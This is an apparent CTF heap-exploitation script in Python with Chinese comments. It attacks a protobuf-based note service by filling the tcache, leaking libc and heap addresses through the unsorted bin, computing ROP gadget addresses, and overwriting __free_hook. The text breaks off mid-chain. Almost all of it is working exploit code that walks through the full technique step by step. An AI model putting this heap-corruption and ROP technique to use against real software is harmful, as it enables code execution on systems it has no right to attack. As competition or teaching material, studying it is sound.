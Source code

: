 ```python
import devicemsg_pb2

def new(i,s,c):
        msg = devicemsg_pb2.Devicemsg()  #弄一个序列化结构体，其实就是类似JSON
        msg.actionid = 1  #结构体初始化
        msg.msgidx = i
        msg.msgsize = s
        msg.msgcontent = c
        sda(': \n',msg.SerializeToString()) #序列化
def free(i):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 4
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = b''
        sda(': \n',msg.SerializeToString())
def show(i):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 3
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = b''
        sda(': \n',msg.SerializeToString())
def edit(i,c):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 2
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = c
        sda(': \n',msg.SerializeToString())

    
#tcache中每个链表最多7个节点(chunk)
#暴tcache，进入unsorted bin
for i in range(8):
        new(i,0xf0,b'')
for i in range(8):
        free(i)
#泄露main_arena
show(7)
rc(0x50)
#计算出libc，使用main_arena的工具
libc_base = uu64(rc(8))-0x1ecbe0
success('libc_base --> %s',hex(libc_base))

#泄露堆指针.指向的tcache的结构
show(0)
rc(8)
heap_base = uu64(rc(8))-0x10
success('heap_base --> %s',hex(heap_base))

pop_rdi_ret = libc_base+0x0000000000023b6a
pop_rsi_ret = libc_base+0x000000000002601f
pop_rdx_ret = libc_base+0x0000000000142c92
pop_rax_ret = libc_base+0x0000000000036174
syscall_ret = libc_base+0x00000000000630a9
free_hook = libc_base+0x1eee48

edit(6,p64(free_hook) + flat([
        libc_base+0x0000000000025b9b, #利用了csu的gadget
        0,
        heap_base+0xad0,
        pop_rdi_ret,
```